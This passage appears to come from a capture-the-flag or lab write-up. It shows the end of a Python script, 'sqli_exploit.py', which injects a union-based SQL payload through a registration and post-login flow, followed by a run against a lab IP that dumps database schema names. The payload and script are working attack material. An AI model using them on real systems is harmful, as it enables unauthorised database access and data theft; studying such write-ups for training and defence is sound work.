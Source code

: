 ```python
        injectiondb = "' union select 1,(select group_concat(SCHEMA_NAME,\"\r\n\") from Information_Schema.SCHEMATA),3,4-- -"
        print(Fore.BLUE + f"[*] Target: {url}")
        print(Fore.BLUE + f"[*] Using injection: {injectiondb}")
        sqli(url, injectiondb)
    except IndexError:
        print(Fore.RED + "Usage: python3 sqli_exploit.py http://target/")

```

We know that the information of the `sqli` payload is reflected between `<p id=results>` based on our proxy's response:

![Pasted image 20250805180053.png](../../IMAGES/Pasted%20image%2020250805180053.png)

So we need to grab the output from it, once we use the payload, we can see this:

```python
python3 sqli_exploit.py 'http://10.201.101.141:8000/'
[*] Target: http://10.201.101.141:8000/
[*] Using injection: ' union select 1,(select group_concat(SCHEMA_NAME,"
") from Information_Schema.SCHEMATA),3,4-- -                                                                                                                                                                                                
[+] Sending registration with injection payload...
[+] Logging in with injected user...
[+] Triggering SQLi through text box post-login...
[+] SQLi successful! Dumped data:

There is only 1 word information_schema
,performance_schema                                                                                                                                                                                                                         
,website                                                                                                                                                                                                                                    
,second_project                                                                                                                                                                                                                             
,dev_site                                                                                                                                                                                                                                   
.                                                                                                                                                        
```
